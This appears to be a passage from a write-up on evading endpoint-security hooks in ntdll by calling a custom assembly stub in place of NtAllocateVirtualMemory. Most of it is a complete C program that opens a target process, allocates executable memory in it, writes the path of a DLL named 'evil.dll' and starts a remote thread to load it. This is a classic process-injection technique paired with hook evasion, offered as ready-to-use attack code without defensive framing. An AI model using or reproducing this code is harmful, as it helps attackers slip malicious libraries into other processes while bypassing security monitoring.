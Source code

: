 Subsequent assembly function can be used in place of `NtAllocateVirtualMemory` with GetProcAddress and GetModuleHandle to get same result. By doing so, need to invoke `NtAllocateVirtualMemory` from within *ntdll* address space, which contains hook, is eliminated.

Here is an example of how to use this :

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

char maliciousLibraryPath[] = "C:\\temp\\evil.dll";
unsigned int maliciousLibraryPathLength = sizeof(maliciousLibraryPath) + 1;

extern "C" NTSTATUS myNtAllocateVirtualMemory(
    HANDLE             ProcessHandle,
    PVOID              *BaseAddress,
    ULONG              ZeroBits,
    PULONG             RegionSize,
    ULONG              AllocationType,
    ULONG              Protect
);

int main(int argc, char* argv[]) {
  HANDLE targetProcess; // Handle to the target process
  HANDLE remoteThread;  // Remote thread
  LPVOID remoteBuffer;  // Remote buffer for data

  // Get the handle to Kernel32 and obtain function pointer
  HMODULE kernel32Handle = GetModuleHandle("Kernel32");
  VOID *loadLibraryFunction = (VOID*)GetProcAddress(kernel32Handle, "LoadLibraryA");

  // Parse the process ID
  if (atoi(argv[1]) == 0) {
    printf("Process ID not found. Exiting...\n");
    return -1;
  }
  printf("Process ID: %i", atoi(argv[1]));
  targetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  myNtAllocateVirtualMemory(targetProcess, &remoteBuffer, 0, (PULONG)&maliciousLibraryPathLength, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // Inject the malicious DLL into the target process
  WriteProcessMemory(targetProcess, remoteBuffer, maliciousLibraryPath, maliciousLibraryPathLength, NULL);

  // Start a new thread in the target process
  remoteThread = CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryFunction, remoteBuffer, 0, NULL);
  CloseHandle(targetProcess);
  return 0;
}
```
